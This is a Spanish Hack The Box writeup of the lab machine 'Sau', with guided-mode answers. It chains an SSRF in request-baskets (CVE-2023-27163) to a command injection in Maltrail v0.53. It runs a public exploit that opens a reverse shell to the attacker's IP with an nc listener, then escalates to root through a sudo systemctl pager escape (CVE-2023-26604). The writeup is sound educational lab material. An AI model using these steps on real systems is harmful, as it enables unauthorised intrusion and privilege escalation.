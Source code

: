 ```yaml
---
title: Writeup sau - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - sau
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina sau en Hack The Box.
keywords:
  - writeup sau
  - hack the box sau
  - resolución máquina sau
  - sau hack the box
  - htb sau
---
```

-----------
### 🔗 Accesos rápidos

- 📄 **Writeup online**:
- 📺 **Resolución en vivo (completa)**:
- 🧠 **Explicación resumida**:

---

#easy #linux #nmap #ping #whatweb #git #sudo #sudo-l #tratamientotty #maltrailv053 #CVE-2023-26604 #SSRF #CVE-2023-27163 #cd #ls #gitclone 

---------
# Guided Mode

1)¿Cuál es el puerto TCP abierto más alto en la máquina de destino?
	55555

2)¿Cuál es el nombre del software de código abierto que utiliza la aplicación 55555?
	request-baskets

3)¿Cuál es la versión de request-baskets que se ejecuta en Sau?
	1.2.1

4)¿Cuál es el ID CVE 2023 para una falsificación de solicitud del lado del servidor (SSRF) en esta versión de request-baskets?
	CVE-2023-27163

5)¿Cuál es el nombre del software que «impulsa» la aplicación que se ejecuta en el puerto 80?
	Maltrail

6)Existe una vulnerabilidad de inyección de comandos no autenticados en MailTrail v0.53. ¿Cuál es la ruta relativa en el servidor web al que apunta este exploit?
	/login

7)¿Con qué usuario del sistema se ejecuta la aplicación Mailtrack en Sau?
	puma

*La pregunta anterior fue la flag de user.txt*
9)¿Cuál es la ruta completa al binario (sin argumentos) que el usuario puma puede ejecutar como root en Sau?
	/usr/bin/systemctl

10)¿Cuál es la cadena completa de la versión del sistema systemd instalado en Sau?
	systemd 245 (245.4-4ubuntu3.22)

11)¿Cuál es el ID CVE 2023 para una vulnerabilidad de escalada de privilegios locales en esta versión de systemd?
	CVE-2023-26604

--------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.10.11.224
nmap -p- --open -vvv -sS --min-rate 5000 -n -Pn 10.10.11.224 -oG allPorts
extractPorts allPorts
nmap -sCV -p22,55555 10.10.11.224 -oN target
```

![[Sau1.png]]

![[Sau2.png]]

![[Sau3.png]]

![[Sau4.png]]

![[Sau5.png]]
*TTL:* Maquina linux
*Puertos*
	`22`[[ssh]]
	`55555` HTTP
*Dato Importante:* Si bien desconocemos al principio que servicio esta corriendo el puerto *55555* vemos que dice HTTP en las peticiones asi que vamos a intentar conectarnos como si fuera una web

-----------
## Reconocimiento adicional

Para esta maquina vamos a tener que realizar un escaneo viendo los peurtos que estan filtrados

```shell
nmap -p- -vvv -sS --min-rate 5000 -n -Pn 10.10.11.224 -oG nuevo
nmap -sCV -p22,80,8338,55555 10.10.11.224 -oN puertosfiltered
```

![[Sau16.png]]

![[Sau15.png]]
*Puertos filtered relevantes:*
	`80` HTTP

--------

# [[Whatweb-wappalyzer]]

```shell
whatweb http://10.10.11.224:55555
```
![[Sau18.png]]

-----------
# [[CVE-2023-27163]] y [[SSRF (Server-Side Request Forgery)]]

![[Sau17.png]]
Podemos abajo de todo que nos dice qeu es un request-baskets. Version 1.2.1
Vimos que era el [[CVE-2023-27163]] pero no encontramos ningun proyecto que pueda explotar esta vulnerabilidad que funcione.

Desde la pagina web vamos a crear un basket poniendo el nombre que querramos, entramos con el boton de *Open Basket* 
![[Sau14.png]]

Vamos a apretar sobre la tuerca que esta arriba a la derecha para configurar el basket, vamos a poner la URL a la que queremos redigir, que va a ser la ip local de la maquina victima, y el puerto `80` que vimos filtrado, por lo tanto no sabemos si esta abierto o cerrado. Por lo tanto seria http://127.0.0.1:80  Y tambien vamos a seleccionar las dos casillas de abajo de *Proxy Response* y *Expand Forward Path*

![[Sau13.png]]

Ahora entramos al basket mediante el link http://10.10.11.224:55555/testeo
![[Sau12.png]]
Ahora estamos ante un [[Maltrail v0.53]] y a continuacion lo vamos a vulnerar

-------
# [[Maltrail v0.53]]

[Exploit link de repositorio github](https://github.com/spookier/Maltrail-v0.53-Exploit)
Con [[git clone]] con el comando `git clone https://github.com/spookier/Maltrail-v0.53-Exploit` vamos clonar el repositorio en nuestra maquina. Luego con [[cd]] entramos con el comando `cd Maltrail-v0.53-Exploit`  y una vez dentro listamos el contenido de la carpeta con [[ls]] . Ahora que ya visualizamos el exploit lo vamos a ejecutar con `python3 exploit.py 10.10.16.9 443 http://10.10.11.224:55555/testeo` mientras estamos en escucha con [[nc -nlvp 443]]

![[Sau11.png]]

![[Sau10.png]]
Y listo ya ganamos acceso a la maquina siendo el usuario *puma*

------
# [[Tratamiento de la TTY]]

---------
# Escalada de privilegios con [[CVE-2023-26604]]

### Enumeracion
Usamos [[sudo]] con el comando `sudo -l`
![[Sau9.png]]
Vemos que el binario */usr/bin/systemctl status trail.service* lo podemos ejecutar con privilegios sin otorgar contraseña 


Ahora vemos la version del binario con ``systemctl --version``

![[Sau8.png]]
Vemos que es la version *systemd 245 (245.4-4ubuntu3.22)* asi que buscando en internet encontramos la vulnerabilidad [[CVE-2023-26604]] 



### Explotacion 
[Con este articulo pudimos entender la vulnerabilidad](https://medium.com/%40zenmoviefornotification/saidov-maxim-cve-2023-26604-c1232a526ba7)
Ejecutando el binario con privilegios `sudo /usr/bin/systemctl status trail.service` quedamos con el archivo como si fuera un modo paginate, asi que vamos a ejecutar el comando `!sh` para que nos de una shell, y ya somos root y tenemos una consola con privilegios
![[Sau7.png]]
Ahora solamente nos queda catear las flags

![[Sau6.png]]


-------
# Creditos
Writeup Oficial HackTheBox
https://medium.com/@sandra.sm/writeup-sau-htb-5cc449f0461f